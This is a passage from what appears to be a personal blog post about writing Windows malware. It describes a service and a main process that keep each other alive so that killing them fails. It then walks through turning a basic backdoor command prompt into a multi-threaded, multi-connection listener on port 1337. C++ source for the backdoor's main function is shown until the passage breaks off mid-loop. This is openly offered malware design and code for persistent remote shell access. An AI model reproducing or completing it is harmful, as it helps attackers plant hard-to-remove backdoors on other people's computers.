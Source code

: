 It also works the other way too but this time with less effort, as the main malware has a thread checking if the service is running, if not then it restarts the service. I was able to get this combo to the point where even pskill-ing both of the processes at the same time would not work at stopping them. Scary stuff.

Coding a basic Windows service: <a href="http://www.codeproject.com/Articles/499465/Simple-Windows-Service-in-Cplusplus">http://www.codeproject.com/Articles/499465/Simple-Windows-Service-in-Cplusplus</a>

<h3>Backdoor Command Prompt</h3>
This was my favorite part to program. I took a single-threaded, single-connection Windows backdoor command prompt with global variables and made it into a non-blocking, multi-threaded, multi-connection backdoor. The original code can be found <a href="http://hackforlifeee.wordpress.com/2012/01/13/basic-backdoor-c/">here</a>.
One of the problems I ran into was that sockets are, by default, blocking. This means that the accept function would hang until a connection was received. Not very friendly to a nice shutdown while testing, so for my own interest I looked into ways to get around this. I came across two methods, one was change the socket into a non blocking socket and constantly check it, and the other was using the select function. The former option would take up a lot more of the CPU than the latter so that is the one I went with. Basically what select does is it takes the listening socket as an argument and if anything is received it returns 1, if nothing is received after a timeout value then it returns 0 (on error -1). This is useful so when there is a connection we can pass the connection to the accept function and spawn a connection thread and if there is no activity we can do something else (like check if the program is exiting). Check it out:
```cpp
DWORD WINAPI backdoor() //the main function
{
	//signal handling
	signal(SIGINT, sigHandler);
	signal(SIGTERM, sigHandler);
	signal(SIGABRT, sigHandler);

	//select function timeout values
	struct timeval tv;
	tv.tv_sec = 5;
	tv.tv_usec = 0;

	fd_set master;    // master file descriptor list
	fd_set read_fds;  // temp file descriptor list for select()
	int fdmax;        // maximum file descriptor number

	FD_ZERO(&master);    // clear the master and temp sets
	FD_ZERO(&read_fds);

	int rc = 1;

	int port = 1337; //port is going to keep the portnumber
	SOCKET locsock, remsock;  //the sockets we are going to need
	SOCKADDR_IN sinloc; //the structures needed for our sockets
	WSADATA wsadata; //wsadata

	//set listen port
	port = 1337;
	//tell windows we want to use sockets
	WSAStartup(MAKEWORD(1,1), &wsadata);
	//create socket
	locsock = socket(AF_INET, SOCK_STREAM, 0);
	//fill structure
	sinloc.sin_family = AF_INET;
	sinloc.sin_addr.s_addr = INADDR_ANY;
	sinloc.sin_port = htons(port);
	while (1){
		//bind the socket to the specified port
		SOCKET tempsock = locsock;
		if (bind(locsock, (SOCKADDR*)&sinloc, sizeof(SOCKADDR_IN)) == SOCKET_ERROR)
```
